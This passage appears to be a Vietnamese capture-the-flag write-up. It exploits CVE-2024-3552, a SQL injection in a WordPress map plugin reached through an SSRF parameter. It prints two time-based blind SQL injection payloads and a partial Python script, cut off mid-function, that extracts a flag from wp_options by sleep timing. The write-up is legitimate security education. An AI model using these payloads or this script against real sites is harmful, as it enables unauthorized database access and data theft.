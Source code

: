 Và sau khi tìm kiếm thông tin mình phát hiện được wordpress này dính CVE và có lỗ hổng SQL ở Method: get_map_marker_info như trên <a href="https://github.com/truonghuuphuc/CVE-2024-3552-Poc?tab=readme-ov-file">CVE-2024-3552</a> sau đó mình thử nghiệm bằng cách ssrf vào wordpress sau đó truyền payload thông qua tham số b. <br>
Và cần double encoding payload trước khi gửi request <br>
Payload 1: **action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=2,sleep(6),0)+from+(select+1)x)** <br>
<img width="1919" height="942" alt="image" src="https://github.com/user-attachments/assets/79642fa6-3fbc-42aa-9d6f-4f28ff91336b" /> <br>
Payload 2: **action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=1,sleep(6),0)+from+(select+1)x)** <br>
<img width="1919" height="932" alt="image" src="https://github.com/user-attachments/assets/bf63d32c-df04-4b5d-a187-64e5f03eb201" /> <br>
Vậy đã thành công inject được lệnh thành công và tiếp theo có thể sử dụng blind_sql với sleep để trích xuất flag <br>
## Khai thác
Với những điều đã nói trên mình sẽ viết tập lệnh python khai thác và bảng ctf_flag mình sẽ chuyển sang dạng hex tranh dấu nháy ' payload đi qua URL decode <br>
```python

import time, requests, string
from urllib.parse import quote_plus

class Exploit:
    def __init__(self, baseURL, timeout=40, sleep_exec=6):
        self.baseURL = baseURL.rstrip("/")
        self.u = "http://127.0.0.1:80/cms/wp-admin/admin-ajax.php"
        self.timeout = timeout
        self.sleep = int(sleep_exec)
        self.header = {"User-Agent": "42", "Accept-Encoding": "identity"}
        self.hex_ctf_flag = "0x6374665f666c6167"
        self.patern_flag = "cybercon{"
        self.charset = string.ascii_uppercase + string.digits + "}"

    def encode_char(self, body: str):
        enc = quote_plus(body, safe="")       
        return enc.replace("%5B%5D", "%255B%255D")  

    def buil_url(self, b_encoded: str):
        return f"{self.baseURL}/?u={self.u}&b={b_encoded}"

    def send_request(self, b_encoded: str) -> float:
        url = self.buil_url(b_encoded)
        start = time.perf_counter()
        requests.get(url, headers=self.header, timeout=self.timeout)
        return time.perf_counter() - start
    
    def base_line(self) -> str:
        body = "action=w2dc_get_map_marker_info&locations_ids[]=1"
        return self.encode_char(body)

    def char_encode(self, pos: int, ch: str):
        hexch = ch.encode().hex()
        cond = (f"substring((select+option_value+from+wp_options+where+option_name={self.hex_ctf_flag}"
                f"+limit+1),{pos},1)=0x{hexch}")
        body = ("action=w2dc_get_map_marker_info&locations_ids[]="
                f"(select+if({cond},sleep({self.sleep}),0)+from+(select+1)x)")
        return self.encode_char(body)
    
    def extract_flag(self, max_len=64):
        base_time = min(self.send_request(self.base_line()) for _ in range(2))
        diffTime = base_time + self.sleep * 0.6
```